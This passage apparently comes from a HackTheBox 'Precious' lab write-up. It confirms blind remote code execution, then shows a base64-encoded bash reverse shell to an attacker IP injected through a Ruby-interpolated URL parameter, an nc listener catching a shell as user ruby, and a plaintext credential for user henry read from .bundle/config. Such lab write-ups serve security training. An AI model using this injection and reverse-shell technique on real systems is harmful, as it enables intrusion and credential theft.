 We can see the pings on our box. The blind RCE is hence confirmed.

# SHELL AS RUBY

```bash

┌──(n3hal㉿Universe7)-[~/Documents/hackthebox/precious]
└─$ echo 'bash -i >& /dev/tcp/10.10.X.X/443 0>&1' | base64 
YmFzaCAtaSA+JiAv..........SNIP...........y80NDMgMD4mMQo=

```

The reverse shell payload is base64 encoded so the dangerous characters does not cause a problem.

**FINAL PAYLOAD**:

```

http://10.10.X.X/?name=#{'%20`echo YmFzaCAtaSA+JiAv..........SNIP...........y80NDMgMD4mMQo= | base64 -d | bash`'}

```

```bash

┌──(n3hal㉿Universe7)-[~/Documents/hackthebox/precious]
└─$ nc -nlp 443
bash: cannot set terminal process group (678): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$

```

We got shell as user `ruby`.

# SHELL AS HENRY

```bash

ruby@precious:~$ ls -la
total 24
drwxr-xr-x 3 ruby ruby 4096 Oct 26 08:28 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ 
ruby@precious:~$ ls -la .bundle/
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .
drwxr-xr-x 3 ruby ruby 4096 Oct 26 08:28 ..
-r-xr-xr-x 1 root ruby   62 Sep 26 05:04 config
ruby@precious:~$ 
ruby@precious:~$ cat .bundle/config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"

```
